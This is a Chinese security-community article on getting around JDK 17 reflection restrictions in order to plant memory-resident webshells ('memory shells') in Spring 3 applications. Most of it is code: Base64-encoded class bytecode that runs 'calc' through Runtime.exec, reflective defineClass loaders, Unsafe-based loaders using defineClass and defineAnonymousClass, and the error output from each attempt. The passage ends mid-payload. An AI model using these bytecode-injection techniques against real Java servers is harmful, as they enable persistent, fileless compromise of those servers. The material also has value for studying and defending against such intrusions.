










# Spring 3 版本内存马植入难题与突破思路-先知社区

> **来源**: https://xz.aliyun.com/news/17257  
> **文章ID**: 17257

---

# Spring 3 版本内存马植入难题与突破思路

## 前言

在 Spring3 版本下对于我们植入内存马利用手法来说，难点其实在于反射，因为 Spring3 版本下对 jdk 的要求已经是 17 了，而 17 对于反射有很大的限制，导致我们如果再以低版本jdk植入的话，会报错，所以如何突破Spring 3 版本植入内存马的问题的核心在于如何突破高版本jdk的反射限制

## 问题引入-JDK 反射历史变化

这里其实归根结底，问题拆分下来就是 jdk17+加载字节码

环境就使用 jdk 17 随便搭建一个 IDEA 的项目就 ok 了

当然还需要 jdk 低版本的作为对比

首先我们写一个测试类

```
import java.io.IOException;

public class Test{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

}
```

这是低版本

然后我们生成这个的字节码

```
import java.io.FileInputStream;
import java.io.IOException;
import java.util.Base64;

public class Base64Encoder {
    public static void main(String[] args) {
        // 指定要读取的字节码文件路径
        String filePath = "路径";

        try {
            // 读取字节码文件内容
            FileInputStream fileInputStream = new FileInputStream(filePath);
            byte[] fileBytes = new byte[fileInputStream.available()];
            fileInputStream.read(fileBytes);
            fileInputStream.close();

            // 使用 Base64 编码字节数组
            String base64Encoded = Base64.getEncoder().encodeToString(fileBytes);

            // 输出 Base64 编码后的字节码
            System.out.println(base64Encoded);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



生成字节码后我们去反射加载字节码

```
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class text {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        String payload = "yv66vgAAADQAKAoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMVGVzdDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEACVRlc3QuamF2YQwACgALBwAiDAAjACQBAARjYWxjDAAlACYBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAJwEABFRlc3QBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAAUADgAAAAwAAQAAAAUADwAQAAAACAARAAsAAQAMAAAAZgADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv7EAAQAAAAkADAAFAAMADQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAA4AAAAMAAEADQAJABIAEwAAABQAAAAHAAJMBwAVCQABABYAAAACABc=";

        byte[] decode = Base64.getDecoder().decode(payload);

        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class evil = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "Test", decode, 0, decode.length);
        evil.newInstance();
    }
}
```

核心就是反射获取 defineClass 方法



成功弹出计算器

我们在 jdk 17重复这样的操作

```
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class test {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        String payload = "yv66vgAAAD0AJwoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCgAIAAkHAAoMAAsADAEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwgADgEABGNhbGMKAAgAEAwAEQASAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwcAFAEAE2phdmEvaW8vSU9FeGNlcHRpb24HABYBABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbgoAFQAYDAAFABkBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYHABsBAARldmlsAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMZXZpbDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlAQAKU291cmNlRmlsZQEACWV2aWwuamF2YQAhABoAAgAAAAAAAgABAAUABgABABwAAAAvAAEAAQAAAAUqtwABsQAAAAIAHQAAAAYAAQAAAAUAHgAAAAwAAQAAAAUAHwAgAAAACAAhAAYAAQAcAAAAZgADAAEAAAAXuAAHEg22AA9XpwANS7sAFVkqtwAXv7EAAQAAAAkADAATAAMAHQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAB4AAAAMAAEADQAJACIAIwAAACQAAAAHAAJMBwATCQABACUAAAACACY=";

        byte[] decode = Base64.getDecoder().decode(payload);

        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class evil = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "evil", decode, 0, decode.length);
        evil.newInstance();
    }
}
```


可以发现报错了

```
Exception in thread "main" java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @7cca494b
at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:354)
at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:297)
at java.base/java.lang.reflect.Method.checkCanSetAccessible(Method.java:199)
at java.base/java.lang.reflect.Method.setAccessible(Method.java:193)
at test.main(test.java:13)
```

问问我们聪明的好朋友

这是由于 Java 9 引入的模块化系统（JPMS，Java Platform Module System）导致的，特别是当您尝试使用 Reflection 或 setAccessible(true) 来访问某些受到访问限制的类或方法时，会遇到类似的错误。

这里我们再次更换版本在 JDK11

```
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class test {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        String payload = "yv66vgAAADcAJwoACQAXCgAYABkIABoKABgAGwcAHAcAHQoABgAeBwAfBwAgAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMZXZpbDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlAQAKU291cmNlRmlsZQEACWV2aWwuamF2YQwACgALBwAhDAAiACMBAARjYWxjDAAkACUBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAJgEABGV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAAUADgAAAAwAAQAAAAUADwAQAAAACAARAAsAAQAMAAAAZgADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv7EAAQAAAAkADAAFAAMADQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAA4AAAAMAAEADQAJABIAEwAAABQAAAAHAAJMBwAFCQABABUAAAACABY=";

        byte[] decode = Base64.getDecoder().decode(payload);

        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class evil = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "evil", decode, 0, decode.length);
        evil.newInstance();
    }
}
```



虽然报错了，但是弹出了计算器

```
WARNING: Please consider reporting this to the maintainers of test
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
```

根据 <https://docs.oracle.com/en/java/javase/17/migrate/migrating-jdk-8-later-jdk-releases.html#GUID-7BB28E4D-99B3-4078-BDC4-FC24180CE82B>

总结下来就是

在 JDK9 至 JDK16 版本中，对 Java.\* 包中的非公共字段和方法进行反射时，会出现非法访问的警告。但从 JDK17 开始，Java 引入了更强的封装机制，默认情况下禁止了这种类型的反射访问。任何试图通过反射访问 java.\* 包中的非公共字段和方法的代码都会抛出 InaccessibleObjectException 异常。Oracle 解释称，这种反射行为对 JDK 的安全性和可维护性带来了不利影响。

## 原因调试分析

到底问题是出现在了哪里呢？

我们调试分析分析

反射非 public 的关键步骤一定不能缺少我们的 setAccessible

我们就从这里开始调试分析

```
public void setAccessible(boolean flag) {
    AccessibleObject.checkPermission();
    if (flag) checkCanSetAccessible(Reflection.getCallerClass());
    setAccessible0(flag);
}
```

可以看到一个很明显的方法 checkCanSetAccessible，应该是这里出了问题

一路重写

```
final void checkCanSetAccessible(Class<?> caller, Class<?> declaringClass) {
    checkCanSetAccessible(caller, declaringClass, true);
}
```

```
checkCanSetAccessible:303, AccessibleObject (java.lang.reflect)
checkCanSetAccessible:297, AccessibleObject (java.lang.reflect)
checkCanSetAccessible:199, Method (java.lang.reflect)
setAccessible:193, Method (java.lang.reflect)
main:13, test
```

最后来到

```
private boolean checkCanSetAccessible(Class<?> caller,
                                      Class<?> declaringClass,
                                      boolean throwExceptionIfDenied) {
    if (caller == MethodHandle.class) {
        throw new IllegalCallerException();   // should not happen
    }

    Module callerModule = caller.getModule();
    Module declaringModule = declaringClass.getModule();

    if (callerModule == declaringModule) return true;
    if (callerModule == Object.class.getModule()) return true;
    if (!declaringModule.isNamed()) return true;

    String pn = declaringClass.getPackageName();
    int modifiers;
    if (this instanceof Executable) {
        modifiers = ((Executable) this).getModifiers();
    } else {
        modifiers = ((Field) this).getModifiers();
    }

    // class is public and package is exported to caller
    boolean isClassPublic = Modifier.isPublic(declaringClass.getModifiers());
    if (isClassPublic && declaringModule.isExported(pn, callerModule)) {
        // member is public
        if (Modifier.isPublic(modifiers)) {
            return true;
        }

        // member is protected-static
        if (Modifier.isProtected(modifiers)
            && Modifier.isStatic(modifiers)
            && isSubclassOf(caller, declaringClass)) {
            return true;
        }
    }

    // package is open to caller
    if (declaringModule.isOpen(pn, callerModule)) {
        return true;
    }

    if (throwExceptionIfDenied) {
        // not accessible
        String msg = "Unable to make ";
        if (this instanceof Field)
            msg += "field ";
        msg += this + " accessible: " + declaringModule + " does not "";
        if (isClassPublic && Modifier.isPublic(modifiers))
            msg += "exports";
        else
            msg += "opens";
        msg += " " + pn + "" to " + callerModule;
        InaccessibleObjectException e = new InaccessibleObjectException(msg);
        if (printStackTraceWhenAccessFails()) {
            e.printStackTrace(System.err);
        }
        throw e;
    }
    return false;
}
```

我们主要观察这个逻辑

我们直接看看什么情况下能够成功的反射调用

**相同模块下的访问**

```
if (callerModule == declaringModule) return true;
if (callerModule == Object.class.getModule()) return true;
if (!declaringModule.isNamed()) return true;
```

caller 就是我们当前运行的 java 文件，而 declaringClass 就是我们需要反射修改的类

判断我们调用者类和目标类是一个 module，或者调用类的 module 和 Object 类的 module 一样才可以调用

**public 类并且包导出**

条件：如果声明的类是 public，并且该类所在的包被导出给调用者模块（declaringModule.isExported(pn, callerModule)），且成员是 public，则可以访问。

这个不需要说了，本来 PUBLIC 就可以的

**protected static 成员且调用者为子类**

条件：如果成员是 protected 且 static，并且调用者类是声明类的子类（isSubclassOf(caller, declaringClass)），则可以访问。

**包 open 给调用者模块**

条件：如果声明类的包通过 open 关键字开放给调用者模块（declaringModule.isOpen(pn, callerModule)），则可以访问。

比如我们的 unsafe

综合下来我们已经清楚了限制的点了

唯一能寻找突破的就是第一个了，但是如何才能实现**相同模块下的访问**呢？那就是我们下面分析的

## 破局者--unsafe

简单介绍一下这个类

sun.misc.Unsafe 是 Java 中一个非常特殊的类，属于 sun.misc 包，它提供了一些低级的、操作系统级别的功能，这些功能通常不对普通开发者开放。它能直接访问和操作 JVM 内部的内存，执行一些原本在 Java 中无法实现的底层操作，像内存分配、指针操作等。

我们利用它主要就是因为它的功能非常非常的强大

在 JDK11 之前，我们可以使用它的方法来加载字节码

```
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.util.Base64;


public class unsafetest {

    public static void main(String[] args) throws Exception {
        String payload = "yv66vgAAADQAKAoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMVGVzdDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEACVRlc3QuamF2YQwACgALBwAiDAAjACQBAARjYWxjDAAlACYBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAJwEABFRlc3QBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAAUADgAAAAwAAQAAAAUADwAQAAAACAARAAsAAQAMAAAAZgADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv7EAAQAAAAkADAAFAAMADQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAA4AAAAMAAEADQAJABIAEwAAABQAAAAHAAJMBwAVCQABABYAAAACABc=";
        byte[] decode = Base64.getDecoder().decode(payload);
        ClassLoader classLoader=ClassLoader.getSystemClassLoader();
        Field theUafeField= Unsafe.class.getDeclaredField("theUnsafe");
        theUafeField.setAccessible(true);
        Unsafe unsafe= (Unsafe) theUafeField.get(null);
        Class<?> c2=unsafe.defineClass("Test",decode,0,decode.length,classLoader,null);
        c2.newInstance();
    }

}
```



虽然在 11 的时候又把我们的 defineClass 方法给移除了



但是还有对于我们用法来说异曲同工之妙的defineAnonymousClass 方法

```
public Class<?> defineAnonymousClass(Class<?> hostClass, byte[] data, Object[] cpPatches) {
    return theInternalUnsafe.defineAnonymousClass(hostClass, data, cpPatches);
}
```

payload

```
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.util.Base64;


public class unsafetest {

    public static void main(String[] args) throws Exception {
        String payload = "yv66vgAAADQAKAoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMVGVzdDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEACVRlc3QuamF2YQwACgALBwAiDAAjACQBAARjYWxjDAAlACYBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAJwEABFRlc3QBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAAUADgAAAAwAAQAAAAUADwAQAAAACAARAAsAAQAMAAAAZgADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv